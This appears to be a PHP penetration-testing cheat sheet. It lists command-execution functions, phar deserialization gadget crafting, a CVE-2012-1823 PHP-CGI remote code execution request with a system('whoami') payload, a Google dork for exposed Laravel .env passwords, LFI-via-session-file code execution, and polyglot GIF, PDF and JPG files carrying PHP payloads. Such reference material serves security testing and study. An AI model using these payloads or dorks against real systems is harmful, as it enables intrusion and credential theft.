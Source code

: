 # PHP

## Command execution

Here is a list of functions to execute commands on a system:

```
exec
passthru
shell_exec
system
proc_open
popen
`{CMD}`
curl_exec
curl_multi_exec
```


## Deserialization

### Phar deserialization

The unserialization of a `phar` wrapper is realized in any file operation. Thus,
file operation such as `file_exists` might be less protected, then it's possible
to inject a `phar` wrapper within it.

The following code describes how to create a `phar` wrapper:

```php
<?php

require('weak_class.php');
# We craft an object by overwriting some methods and functions
$obj = new WeakClass();
$obj->args = "id";

# Then, we serialize the object to a file
file_put_contents("/tmp/exploit.phar", serialize($obj));
```

Here is an example of exploitable functions:

```
copy
file_exists
file_get_contents
file_put_contents
file
fileatime
filectime
filegroup
fileinode
filemtime
fileowner
fileperms
filesize
filetype
fopen
is_dir
is_executable
is_file
is_link
is_readable
is_writable
lstat
mkdir
parse_ini_file
readfile
rename
rmdir
stat
touch
unlink
```


## CVE-2012-1823: RCE in PHP-CGI

PHP-CGI up to version 5.3.12 and 5.4.2 is vulnerable to an argument injection.

You can show the page source code:
```
GET https://<host>/file.php?-s
```

Or even execute PHP scripts (or a remote code execution)
```
POST https://<host>/file.php?-d%20allow_url_include%3d1%20-d%20auto_prepend_file%3dphp://input

<?php system('whoami'); ?>
```

More details can be found on the Metasploit script [here](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/php_cgi_arg_injection.rb)



## Laravel configuration file

The Laravel configuration file is sometimes exposed on the Internet with a dotEnv
file at the root level of the web server:

```
https://<host>/.env
```

You can find vulnerable target using a Google dork:

```
"DB_PASSWORD" filetype:env
```


## PHP session files

On PHP the directive [`session.save_path`](https://www.php.net/manual/en/session.configuration.php#ini.session.save-path)
set the folder where PHP will store the session files. So the session files are
written on the disk. A malicious user may read this files to retrieve information.

On a Windows system (IIS), the default value create files in `C:\Windows\Temp`
with the name `sess_<session_id>`. The `<session_id>` is the value of the
`PHPSESSIONID` cookie. When you have a `Local File Inclusion` (LFI) vulnerability,
it's possible to include this kind of files.

This file contains some user's session variable. So a user can write some PHP
code like `<?php phpinfo() ?>` (as a username for example) in his session and
try to include the file to execute the PHP code.

Here is 2 examples of exploitation:

- The `Alcatel Omnivista 8770` uses this trick to fetch some internal session variable
from the user session. The [exploit](https://www.exploit-db.com/exploits/47761)
gets the session file that is accessible on the server `/session/sess_<session_id>`.

- `ippsec` use this technique in the HTB box [`Sniper`](https://www.youtube.com/watch?v=k7gD4ufex9Q&t=3255s)
to create a use with a username that contains some PHP code. Then he includes
the session file with a LFI.


## PHP Polyglot file

A polyglot file is valid in two different format. For instance a valid `GIF`
file that contains a PHP payload.


### GIF89

[This file](./assets/polyglot.php.gif)) contains a PHP payload in the [Comment
Extension](https://www.w3.org/Graphics/GIF/spec-gif89a.txt) of a 1 pixel GIF:

```bash
hexdump -C assets/polyglot.php.gif
00000000  47 49 46 38 39 61 01 00  01 00 00 ff 00 2c 00 00  |GIF89a.......,..|
00000010  00 00 01 00 01 00 00 02  00 21 fe 3c 3f 70 68 70  |.........!.<?php|
00000020  69 6e 66 6f 28 29 3b                              |info();|
```

### PDF

You can add a comment (`%`) on the PDF header:

```pdf
%PDF-1.2 %<?phpinfo()?>
...
```

### Others formats

On most formats (mp3, jpg, ...) there is an `EOF` after what we can add the
payload. So the easiest way is to append to a valid file our payload:

```bash
cat valid.jpg payload.php > polyglot.php.jpg
```
